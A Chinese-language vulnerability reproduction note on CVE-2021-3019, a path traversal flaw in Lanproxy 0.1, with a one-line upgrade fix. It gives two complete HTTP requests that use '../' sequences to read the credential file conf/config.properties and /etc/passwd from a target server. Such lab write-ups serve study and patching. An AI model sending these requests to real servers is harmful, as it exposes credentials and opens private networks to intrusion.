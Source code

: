 # CVE-2021-3019 Lanproxy任意文件读取漏洞

## 漏洞描述

Lanproxy是一个将局域网个人电脑、服务器代理到公网的内网穿透工具，支持tcp流量转发，可支持任何tcp上层协议（访问内网网站、本地支付接口调试、ssh访问、远程桌面等等）

本次Lanproxy 路径遍历漏洞 (CVE-2021-3019)通过../绕过读取任意文件。该漏洞允许目录遍历读取/../conf/config.properties来获取到内部网连接的凭据。

## 影响版本

lanproxy 0.1

## 漏洞复现

访问靶机IP:8090，转到登录页

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed2/20210628193026.png)

打开Burpsuite，开启抓包，刷新首页抓一个包。发送到repeater，修改请求url如下(X.X.X.X代指服务器)：

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed2/20210628193459.png)

```
GET /../conf/config.properties HTTP/1.1
Host: X.X.X.X:8090
Cache-Control: max-age=0IP
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: close
```

![](https://cdn.jsdelivr.net/gh/TesterCC/pic_bed2/20210628193627.png)

```
GET /../../../../../etc/passwd HTTP/1.1
Host: X.X.X.X:8090
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,zh-TW;q=0.7
Connection: close
```

## 解决方案

升级到最新版本